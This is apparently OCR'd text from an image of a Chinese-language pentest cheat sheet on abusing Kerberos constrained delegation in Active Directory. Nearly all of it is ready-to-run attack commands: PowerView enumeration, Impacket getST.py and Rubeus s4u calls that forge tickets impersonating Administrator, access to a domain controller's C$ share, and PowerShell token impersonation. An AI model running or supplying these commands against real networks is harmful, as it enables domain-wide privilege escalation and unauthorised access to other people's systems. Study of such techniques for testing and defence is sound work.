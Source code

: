 	请求允许我们利用委托配置的 Kerberos 票证，我们可以再次使用 Impackets getST.py 脚本
	参数-impersonate 标志并指定我们希望模拟的用户
	探测
	>Get-DomainComputer -TrustedToAuth | select -exp dnshostname
	发现服务
	>Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo
 ### 利用受约束的委托
  	Impacket
	>getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
	Rubeus
	>./Rubeus.exe tgtdeleg /nowrap # this ticket can be used with /ticket:...
	>./Rubeus.exe s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:cifs/srv01.domain.com /ptt
	>./Rubeus.exe s4u /user:MACHINE$ /rc4:MACHINE_PWD_HASH /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
	>dir \\dc.domain.com\c$
 ### 在资源上模拟域用户
	要求：
	配置有约束委派的计算机上的 SYSTEM 级别权限
	PS> [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
	PS> $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
	PS> $idToImpersonate.Impersonate()
	PS> [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
	PS> ls \\dc01.offense.local\c$